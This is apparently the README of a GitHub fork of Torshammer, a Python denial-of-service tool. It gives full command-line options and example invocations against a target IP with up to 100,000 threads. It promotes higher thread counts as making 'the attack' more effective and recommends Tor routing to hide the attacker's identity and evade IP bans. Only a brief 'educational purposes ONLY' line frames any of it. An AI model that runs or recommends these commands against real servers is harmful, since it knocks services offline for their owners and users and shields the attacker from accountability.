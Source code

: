 
---------------------------------------------------
# Use for educational purposes ONLY

## This is a maintained fork of Torshammer
- It works with the new TOR port 9050.
- Python 3.x version compatible.
  - If you need python 2.x version, please use [Karlheinzniebuhr's torshammer](https://github.com/Karlheinzniebuhr/torshammer)


#### TORS HAMMER HOW TO
----------------------------------------------------
```console
python torshammer.py
```

```
./torshammer.py -t <target> [-r <threads>] [-p <port>] [-T] [-S <sockshost> -P <socksport>] [-i <seconds>] [-s <seconds>] [-h]
 -t|--target <Hostname|IP>
 -r|--threads <Number of threads> Defaults to 256
 -p|--port <Web Server Port> Defaults to 80
 -T|--tor Enable anonymising through tor on 127.0.0.1:9050
 -S|--sockshost <SOCKS host addrees> eg: 127.0.0.1
 -P|--socksport <SOCSS host port> Defaults to 1080
 -i|--max-delay <max seconds beetwen packets in float> Defaults to 3.0
 -s|--pre-sleep-on-thread-start <max seconds beetween starting threads> Default to none
 -h|--help Shows this help
```
You should now see a terminal-based GUI interface.
**Tor'shammer interface has it's own basic help menu that tells you how to run the script according to your target.**

Example usage:
```console
python torshammer.py -t 192.168.1.100 -r 100000 -T
```

```console
python torshammer.py -t 192.168.1.100 -r 100000 -S 127.0.0.1 -P 8080
```

```console
python torshammer.py -t 192.168.1.100 -r 100000 -i 3.0 -s 1.0
```

- The larger the thread count, the more efficient and effective the attack!!
- -T adds the Tor function which provides security, as well, as providing a new identity in case the site is
programmed to ban IP addresses which leave an open connection for "x" amount of time. Tor'shammer's method of
combining this is clever and effective, making it the powerful tool it is. However, Tor'shammer is only effective to
apache servers which do not run nginx.
